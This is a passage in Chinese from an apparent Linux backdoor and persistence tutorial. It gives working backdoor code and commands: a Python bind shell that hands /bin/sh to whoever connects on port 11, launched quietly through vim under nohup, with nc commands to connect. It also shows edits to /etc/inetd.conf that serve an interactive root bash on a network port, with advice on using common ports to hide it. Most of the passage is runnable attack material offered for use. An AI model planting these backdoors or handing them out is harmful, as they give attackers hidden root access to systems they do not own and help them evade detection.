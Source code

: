恶意脚本 dir.py 的内容可以是任何功能的后门，比如监听本地的 11 端口：

```
#from https://www.leavesongs.com/PYTHON/python-shell-backdoor.html
from socket import *
import subprocess
import os, threading, sys, time
if __name__ == "__main__":
       server=socket(AF_INET,SOCK_STREAM)
       server.bind(('0.0.0.0',11))
       server.listen(5)
       print 'waiting for connect'
       talk, addr = server.accept()
       print 'connect from',addr
       proc = subprocess.Popen(["/bin/sh","-i"], stdin=talk,
               stdout=talk, stderr=talk, shell=True)


```

攻击机 nc 连接过去就可以了:

```
nohup vim -E -c "pyfile dir.py"
nc 127.0.0.1 11


```

### 0x08 inetd 服务后门

inetd 是一个监听外部网络请求 (就是一个 socket) 的系统守护进程，默认情况下为 13 端口。当 inetd 接收到一个外部请求后，它会根据这个请求到自己的配置文件中去找到实际处理它的程序，然后再把接收到的这个 socket 交给那个程序去处理。所以，如果我们已经在目标系统的 inetd 配置文件中配置好，那么来自外部的某个 socket 是要执行一个可交互的 shell，就获取了一个后门。

```
#修改/etc/inetd.conf
$vim /etc/inetd.conf

#discard stream tcp nowait root internal 
#discard dgram udp wait root internal 
daytime stream tcp nowait root /bin/bash bash -i

#开启inetd
$inetd

#nc连接
nc -vv 192.168.2.11 13


```

```
#可以配合suid后门，修改/etc/services文件：
suidshell 6666/tcp
#然后修改/etc/inetd.conf
suidshell stream tcp nowait root /bin/bash bash -i
#可以修改成一些常见的端口，以实现隐藏


```
